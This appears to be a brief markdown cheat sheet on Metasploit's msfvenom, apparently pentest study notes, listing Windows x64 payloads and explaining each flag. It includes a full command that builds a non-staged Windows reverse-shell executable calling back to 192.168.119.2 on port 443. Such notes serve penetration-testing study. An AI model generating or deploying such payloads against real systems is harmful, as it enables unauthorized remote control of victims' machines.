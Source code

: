 # `msfvenom`
```
msfvenom -l payloads --platform windows --arch x64
```
- `-l`: List payloads
- `--platform`: Specify the platform
- `--arch`: Specify architechture
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```
- `-p`: Select the payload
- `LHOST`: Specify the localhost
- `LPORT`: Specify the local port
- `-f`: Set the output format
- `-o`: Specify the output file name
```
msfvenom --list | grep powershell
```
